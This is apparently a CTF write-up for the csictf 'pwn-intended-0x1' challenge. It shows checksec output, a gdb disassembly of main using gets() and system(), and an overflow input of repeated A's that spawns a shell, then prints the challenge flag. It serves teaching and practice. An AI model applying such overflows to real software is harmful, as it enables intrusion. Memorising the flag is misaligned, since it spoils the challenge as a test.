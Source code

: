 Info

$file pwn-intended-0x1

pwn-intended-0x1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1fc0accd801ea951a4ec2f7f8c804e0559ccb1db, for GNU/Linux 3.2.0, not stripped

$ checksec pwn-intended-0x1
[*] /pwn-intended-0x1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

Anaylsing binary 

gdb-peda$ disass main


   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe5f]        # 0x402024
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0x0
   0x00000000004011ce <+120>:	je     0x4011ed <main+151>
   0x00000000004011d0 <+122>:	lea    rdi,[rip+0xe59]        # 0x402030
   0x00000000004011d7 <+129>:	call   0x401030 <puts@plt>
   0x00000000004011dc <+134>:	lea    rdi,[rip+0xe94]        # 0x402077
   0x00000000004011e3 <+141>:	mov    eax,0x0
   0x00000000004011e8 <+146>:	call   0x401050 <system@plt>
   0x00000000004011ed <+151>:	mov    eax,0x0
   0x00000000004011f2 <+156>:	leave  
   0x00000000004011f3 <+157>:	ret    


We can see gets function.so try it by giving some input to fill  stack

gdb-peda$ r 
Starting program: /home/kl4u5/Downloads/pwn-intended-0x1 
Please pour me some coffee:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thanks!

Oh no, you spilled some coffee on the floor! Use the flag to clean it.

process  is executing new program: /bin/dash
[New process]
process  is executing new program: /bin/cat

We can see its a easy bufferoverflow vulnerability.


flag csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}



